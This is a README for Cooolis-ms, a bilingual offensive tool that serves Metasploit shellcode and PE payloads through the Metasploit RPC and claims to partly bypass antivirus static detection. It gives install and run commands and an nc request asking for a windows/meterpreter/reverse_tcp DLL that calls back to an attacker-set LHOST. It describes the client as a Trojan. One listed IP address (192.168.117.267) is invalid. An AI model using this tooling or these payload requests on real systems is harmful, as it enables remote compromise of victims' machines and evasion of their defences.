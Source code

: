 # Cooolis-ms

Cooolis-ms 是一个支持Metasploit Framework RPC的一个服务端，用于给Shellcode和PE加载器工作，在一定程度上绕过反病毒软件的静态查杀，同时可以让Cooolis-ms服务端与Metasploit服务器进行分离。


Cooolis-ms is a server that supports the Metasploit Framework RPC. It is used to work with the Shellcode and PE loader. To some extent, it bypasses the static killing of anti-virus software, and allows the Cooolis-ms server to communicate with the Metasploit server. Separation.

## How to install | 如何安装

```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms
$ pip3 install -r requirements.txt
$ python3 server.py -h
```

## How to use |  如何使用

你需要先启动Metasploit RPC服务端：

You need to start the Metasploit RPC server first:

IP : 192.168.117.234

```
$ msfrpcd -U msf -P msf -u /api/1.0/
```

接着需要启动Cooolis-ms，使得它连接到RPC，并且监听一个端口，用来发送载荷：

Then you need to start Cooolis-ms so that it connects to the RPC and listens on a port to send the payload:

IP : 192.168.117.1

```
$ python3 server.py -U msf -P msf -H 192.168.117.234 -v -s -l 4444 -S 192.168.117.1
```

此时当客户端连接192.168.117.1:4444后，并发送配置载荷的JSON字符串就可以获得载荷代码：

At this point, when the client connects to 192.168.117.1:4444 and sends a JSON string of the configuration payload, the payload code can be obtained:

IP : 192.168.117.267

```
$ nc 192.168.117.1 4444
{"LPORT": "9988", "Format": "dll", "LHOST": "192.168.117.1","payload":"windows/meterpreter/reverse_tcp"}
// PAYLoAD ....
```

假设nc是一个木马，那么木马最终会连接JSON字符串中的`LHOST`，当然，也支持Metasploit中的所有载荷。


Assuming nc is a Trojan, then the Trojan will eventually connect to `LHOST` in the JSON string, and of course, all payloads in Metasploit are also supported.


1. 192.168.117.267->192.168.117.1:4444<->192.168.117.234
2. 192.168.117.267<->192.168.117.234

## About other | 关于其他

后续我将会写出Windows平台下的通用加载器客户端集合到这个项目中。


Subsequent I will write a collection of generic loader clients for the Windows platform into this project.

如果你觉得这个项目不错，那就给一个Star～

If you think this project is good, give a Star.

## issue

[I have a question](https://github.com/Rvn0xsy/Cooolis-ms/issues)

